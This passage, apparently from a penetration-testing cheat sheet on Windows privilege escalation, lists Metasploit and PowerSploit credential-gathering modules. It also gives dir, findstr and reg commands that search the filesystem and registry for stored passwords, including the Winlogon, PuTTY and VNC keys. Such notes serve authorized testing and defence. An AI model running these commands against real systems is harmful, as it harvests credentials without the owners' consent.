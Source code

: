              post/windows/gather/credentials/gpp
       post/windows/gather/enum_unattend

       Powersploit

       https://github.com/PowerShellMafia/PowerSploit
       Get-GPPPassword
       Get-UnattendedInstallFile
       Get-Webconfig
       Get-ApplicationHost
       Get-SiteListPassword
       Get-CachedGPPPassword
       Get-RegistryAutoLogon

- Search filesystem:
```
       - Search for specific keywords:

       dir /s *pass* == *cred* == *vnc* == *.config*

       - Search certain file types for a keyword

       findstr /si password *.xml *.ini *.txt

       - Search for certain files

       dir /b /s unattend.xml
       dir /b /s web.config
       dir /b /s sysprep.inf
       dir /b /s sysprep.xml
       dir /b /s *pass*
       dir /b /s vnc.ini

       - Grep the registry for keywords (e.g. “passwords”)

       reg query HKLM /f password /t REG_SZ /s
       reg query HKCU /f password /t REG_SZ /s
       reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
       reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
       reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
       reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

       - Find writeable files

       dir /a-r-d /s /b

           /a is to search for attributes. In this case r is read only and d is directory. The minus signs negate those attributes. So we're looking for writable files only.
           /s means recurse subdirectories
           /b means bare format. Path and filename only.
```
## Trusted Service Paths
